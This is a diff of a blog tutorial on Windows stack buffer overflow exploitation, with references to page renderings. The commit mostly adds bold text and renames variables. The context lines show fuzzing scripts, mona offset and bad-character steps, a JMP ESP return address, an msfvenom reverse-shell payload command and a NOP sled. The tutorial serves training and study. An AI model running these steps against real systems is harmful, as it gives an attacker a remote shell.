

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-08-11-bufferOverflow.md, in a window 1280 px wide and 1400 px high, scrolled down 1911 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-08-11-bufferOverflow.md
+++ b/_posts/2020-08-11-bufferOverflow.md
@@ -93,7 +93,7 @@ Launch Immunity Debugger, then "Open" or "Attach" the .exe file.
 
 ### Mona configuration
 
-All mona commands must be run in the terminal inside Immunity Debugger (in the red rectangle).
+All mona commands must be run in the **terminal** inside Immunity Debugger (in the red rectangle).
 
 ![Mona commands](/assets/imgs/buffer_overflow/mona_commands.PNG)
 
@@ -112,8 +112,8 @@ Use fuzzer.py or fuzzer2.py, until the application crash inside Immunity Debugge
 
 import socket, time, sys
 
-ip = "<IP>"
-port = <PORT>
+IP = "<IP>"
+PORT = <PORT>
 timeout = 5
 
 buffer = []
@@ -126,14 +126,14 @@ for string in buffer:
     try:
         s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
         s.settimeout(timeout)
-        connect = s.connect((ip, port))
+        connect = s.connect((IP, PORT))
         s.recv(1024)
         print("Fuzzing with %s bytes" % len(string))
         s.send(string)
         s.recv(1024)
         s.close()
     except:
-        print("Could not connect to " + ip + ":" + str(port))
+        print("Could not connect to " + IP + ":" + str(PORT))
         sys.exit(0)
     time.sleep(1)
 ```
@@ -143,21 +143,26 @@ for string in buffer:
 
 import socket
 
-target_ip = "<IP>"
-target_port = <PORT>
+IP = "<IP>"
+PORT = <PORT>
 
 payload = 1000 * "A"
 
 try:
     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
-    s.connect((target_ip,target_port))
+    s.connect((IP,PORT))
     s.send(payload)
     print "[+] " + str(len(payload)) + " Bytes Sent"
 except:
     print "[-] Crashed"
 ```
 
-When the application crashes, EIP should be equal to 41414141 (hex value of "AAAA").
+You just have to modify those two variables of the scripts above :
+
+- IP
+- PORT
+
+When the application crashes, EIP should be equal to **41414141** (hex value of "AAAA").
 
 ------
 
@@ -175,7 +180,7 @@ Generate a cyclic pattern to found the exact offset of the crash :
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <SIZE>
 ```
 
-The size must be higher than the crash offset. Now modify the "payload" variable by the cyclic pattern :
+The size must be **higher** than the crash offset. Now modify the **payload** variable by the cyclic pattern :
 
 ```
 # exploit.py
@@ -212,7 +217,7 @@ Re-run the exploit, the application should crash. To find the exact offset of th
 !mona findmsp -distance <SIZE>
 ```
 
-Size is the same as the one used to create the pattern. The result should be something like :
+Size is the **same** as the one used to create the pattern. The result should be something like :
 
 ```
 EIP contains normal pattern : ... (offset XXXX)
@@ -220,9 +225,9 @@ EIP contains normal pattern : ... (offset XXXX)
 
 Get the offset, modify in exploit.py:
 
-- The "offset" variable by the offset
-- The "retn" variable by "BBBB"
-- Remove the "payload" variable
+- The **offset** variable by the offset
+- The **retn** variable by "BBBB"
+- Remove the **payload** variable
 
 ```
 offset = <OFFSET>
@@ -245,13 +250,13 @@ We will send bad characters recursively and analyze if they need to be removed.
 !mona bytearray -b "\x00"
 ```
 
-Copy the results in the variable "payload". And re-run exploit.py, the application should crash. Now to found those bad characters use this command :
+Copy the results in the variable **payload**. And re-run exploit.py, the application should crash. Now to found those bad characters use this command :
 
 ```
 !mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>
 ```
 
-If "BadChars" are found, we need to exclude them as well.
+If **BadChars** are found, we need to exclude them as well.
 
 ```
 !mona bytearray -b "\x00 + <BAD_CHARS>"
@@ -266,7 +271,7 @@ Then compare again :
 !mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>
 ```
 
-Repeat those two steps until the results status returns "Unmodified", this indicates that no more bad characters exist.
+Repeat those two steps until the results status returns **Unmodified**, this indicates that no more bad characters exist.
 
 ------
 
@@ -284,7 +289,7 @@ Repeat those two steps until the results status returns "Unmodified", this indic
 !mona modules
 ```
 
-We need to found a .dll were Rebase, SafeSEH, ASLR, NXCompat are sets to False. When you found it, run the command below to search for a JMP ESP (FFE4), inside the dll :
+We need to found a .dll were Rebase, SafeSEH, ASLR, NXCompat are sets to False. When you found it, run the command below to search for a **JMP ESP** (FFE4), inside the dll :
 
 ```
 !mona find -s "\xff\xe4" -m <DLL>
@@ -308,7 +313,7 @@ retn = "\xaf\x11\x50\x62"
 
 ### Generate payload
 
-Now we generate our shellcode without the badchars that we found :
+Now we generate our shellcode **without** the badchars that we found :
 
 ```
 msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "<BAD_CHARS>" -f c
@@ -316,13 +321,13 @@ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "<BAD_CHARS>" -
 
 Copy the generated shellcode and update exploit.py :
 
-- Setting the "payload" variable equal to the shellcode
+- Setting the **payload** variable equal to the shellcode
 
 ------
 
 ### Prepend NOPs
 
-A NOP-sled is a technique for exploiting stack buffer overflows. It solves the problem of finding the exact address of the buffer by effectively increasing the size of the target area, \x90 represents a NOP in assembly. This instruction will literally do nothing and continue on with code execution.
+A NOP-sled is a technique for exploiting stack buffer overflows. It solves the problem of finding the exact address of the buffer by effectively increasing the size of the target area, **\x90** represents a NOP in assembly. This instruction will literally do nothing and continue on with code execution.
 
 ```
 padding = "\x90" * 16
````
Also changed, not shown: other parts of _posts/2020-08-11-bufferOverflow.md (+3 -3 lines).
